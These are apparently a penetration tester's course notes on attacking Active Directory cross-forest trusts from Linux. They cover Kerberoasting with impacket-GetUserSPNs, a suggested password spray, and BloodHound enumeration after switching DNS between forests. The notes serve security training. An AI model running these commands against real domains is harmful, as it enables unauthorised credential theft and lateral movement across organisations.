 ## **Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux**
---
**Cross-Forest Kerberoasting**


!!! alert "note" 
	To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command


```Bash
impacket-GetUserSPNs -request -target-domain DOMAIN2.LOCAL DOMAIN.LOCAL/user
```

!!! alert "it could also be worth attempting a single password spray with the cracked password, as there is a possibility that it could be used for other service accounts if the same admins are in charge of both domains. Here, we have yet another example of iterative testing and leaving no stone unturned"


**Hunting Foreign Group Membership with Bloodhound-python**
add to resolv.conf so we can resolv DNS entries for first domain
```Bash
cat /etc/resolv.conf 
# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.
\#nameserver 1.1.1.1
\#nameserver 8.8.8.8
domain DOMAIN.LOCAL
nameserver 172.16.5.5
```
Run bloodhound
```Bash
bloodhound-python -d DOMAIN.LOCAL -dc DC01 -c All -u <user> -p <pass>
```
add resolv.conf entries for second forest
```Bash
cat /etc/resolv.conf 
# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.
\#nameserver 1.1.1.1
\#nameserver 8.8.8.8
domain DOMAIN2.LOCAL
nameserver 172.16.5.238
```
Run bloodhound
```Bash
bloodhound-python -d DOMAIN2.LOCAL -dc DC02.DOMNAIN2.LOCAL -c All -u user@DOMAIN.local -p 'pass'
```
upload to bloodhound, click on `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as `DOMAIN.LOCAL`.